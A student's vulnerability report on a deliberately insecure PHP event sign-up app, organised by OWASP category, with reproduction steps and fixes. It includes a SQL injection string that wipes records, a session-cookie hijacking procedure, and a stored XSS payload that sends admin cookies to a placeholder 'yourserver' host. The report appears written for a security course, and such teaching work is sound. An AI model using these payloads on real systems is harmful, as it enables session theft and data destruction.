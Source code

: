 # The Report

This project is done with PHP in a LAMP environment.<br> 
See https://github.com/j0ly/firstproject/blob/master/README.md for installation instructions.

There are many problems with the code, but I will only mention the most relevant problems and the most important fixes (as I see them) for each OWASP vulnerability, without going into details. Had to draw a line somewhere, otherwise I could have ended up spending so much time with this (and the assignment didn’t say how specific we needed to be about the fixes). 

The OWASP vulnerabilities:

## A1

**How to identify:** Sign up some users to the event. Check from the Admin page. Then go to the Cancel page and enter: ```' OR '1'='1```. All the sign-ups are now gone, as you can see from the Admin page!    

**How to fix:** The “mysqli_real_escape_string” function can be used in “delete.php” on the $ticket variable, to prevent the SQL-injection (as used in “done.php” on other variables). But a simple input validation (fixed length + lowcase alfanum only) would also fix the problem in this case.
## A2
a) Guessable fixed admin credentials (admin/password), which are stored in the source code (login.php) with no encryption. 
b) The cookie-session-id and the clear text admin credentials are sent over an unencrypted connection. You can see them with OWASP ZAP.
How (broken session management): You can get access to the Admin page using the stolen cookie-session-id like this (but before you begin, install the “Advanced Cookie Manager” Firefox add-on): 
1) Go to the Admin login-page with Firefox (but don’t log in, - if you are not asked for the credentials then close the browser and try again). 
2) Open “Advanced Cookie Manager” and enter the cookie-session-id you saw with OWASP ZAP into the "Value" box, replacing the existing one (delete first, then paste). Save the change.
3) Re-enter the Admin page (do not only reload), and you’re in without entering credentials!
Note: You can use OWASP ZAP together with another browser, to capture the cookie-session-id, when logging in.
Fix: Use SSL for the website (see the GitHub Readme)! 

Besides that, the session could be re-generated and the old one destroyed with some intervals. And the session could be made to timeout sooner.  The “secure” and “path” parameters could be used for the session cookie (+ httponly to defend against A3).
The admin credentials could be stored in the database with the password salted + hashed. The admin should be able to change (at least) the password. 
## A3
There are both Stored and Reflected XSS vulnerabilities. The Stored XSS code can be entered on the SignUp page, and executed on the Admin page when listing the sign-ups. 
How (stored XSS): Enter this code into the address field on the SignUp page;
```<img src=x onerror=this.src='http://yourserver/?c='+document.cookie>```
When the admin logs in and takes a look at the sign-ups, his session-id should be written to the logs of “yourserver”. But you can also test with code like this, in any of the fields on the SignUp page; 
<body onload=alert('hello')>
Fix:  Html codes should be escaped using the htmlspecialchars or htmlentities PHP-functions + the input validated as tightly as possible (length, allowed characters, format etc.).

## A6
Credit card numbers are sent without SSL in cleartext with POST, and stored unencrypted in the database. And, the session cookie and the admin credentials can be stolen since SSL is not in use (see A2).

How: Capture the (imaginary) credit card numbers using OWASP ZAP.

Fix: Again, use SSL! 

But there are many requirements when handling credit card data, see https://en.wikipedia.org/wiki/Payment_Card_Industry_Data_Security_Standard
Regarding the session cookie and admin credentials, see the A2-fix.
## A7
The database credentials are stored in an easy to guess plaintext config file, inside the web-root, and is lacking access control.
How: Modify “yourserver” in this link to match your installation;  http://yourserver/firstproject/admin/config.ini. Then open this link with your browser, and you should see the credentials.
Fix: 

